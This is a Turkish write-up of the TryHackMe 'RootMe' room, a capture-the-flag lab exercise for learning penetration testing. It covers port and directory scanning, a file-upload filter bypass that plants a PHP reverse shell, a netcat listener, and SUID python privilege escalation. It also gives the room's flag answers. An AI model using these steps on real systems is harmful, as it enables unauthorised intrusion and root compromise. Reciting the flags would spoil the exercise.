 ```yaml
---
title: RootMe
date: 2024-03-27 13:01:12
categories: [TryHackMe]
tags: [Easy,Linux,Web]
image: images/root.jpg
---
```


<a href="https://tryhackme.com/room/rootme">RootMe</a>

## Bölüm 1 - Reconnaissance

- Makineyi tarayın, kaç tane port açık?

Öncelikle nmap taraması başlatalım.

```bash
┌──(root@r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# nmap -T5 -p- -v -sV 10.10.155.83     
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a1.png?raw=true)

>Göründüğü gibi 22 ve 80 portu açık. Cevap: 2


- Çalışan Apache versiyonu nedir?

>2.4.29

- 22 portunda çalışan servis nedir?

> ssh

- Gizli dizin nedir?

Gobuster çalıştırarak gizli dizini bulalım.

```bash
┌──(root㉿r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# gobuster dir --url http://10.10.178.135 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 60
```
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a2.png?raw=true)

> /panel/


## Bölüm 2 - Getting a Shell

Önce bulduğumuz gizli dizine gidelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a3.png?raw=true)

Php reverse shell komut dosyası kullanılarak bağlantı sağlanılabilir. Bunun için pentest monkey’in [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) kodunu kullandım. Dosya yüklenmek istendiğinde izin verilmiyor.

Dosya adı uzantısı değiştirilerek file upload bypass işlemi yapılabilir. Bu yüzden php-reverse-shell.php dosyasının adı php-reverse-shell.php5 yapıldığında yükleme işlemi başarı ile gerçekleşiyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a4.png?raw=true)

Yükleme işlemi yapmadan önce dosyayı açıp kendi ip adresinizi ve dinlemek istediğiniz portu girmelisiniz.

Dosyayı yükledikten sonra netcat çalıştırıyoruz.

```bash
┌──(root㉿r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# nc -nvlp 1234 
```
http://10.10.178.135/uploads/ a giderek yüklediğimiz dosyayı çalışıyoruz ve shellimizi alıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a5.png?raw=true)

`python -c ‘import pty;pty.spawn(“/bin/bash”)’` ile bağlantı stabil hale getirelim.

cat /var/www/user.txt ile user flag’ı görüntüleyebiliriz.

> THM{y0u_g0t_a_sh3ll}

## Bölüm 3 - Privilege escalation 

`find / -user root -perm /4000` ile root yetkisi edilecek dosyalar araştıralım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a6.png?raw=true)

Burada /usr/bin/python dikkatimi çekti. [GTFOBins](https://gtfobins.github.io/gtfobins/python/) sayfasında python üzerinden yetki yükseltme ile ilgili komut bulunuyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a7.png?raw=true)

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’ komutu ile yetkimizi yükseltelim.

Ardından cat /root/root.txt komutu ile root bayrağına ulaşalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a8.png?raw=true)

> THM{pr1v1l3g3_3sc4l4t10n}

![fsoc](/images/fsoc.gif)





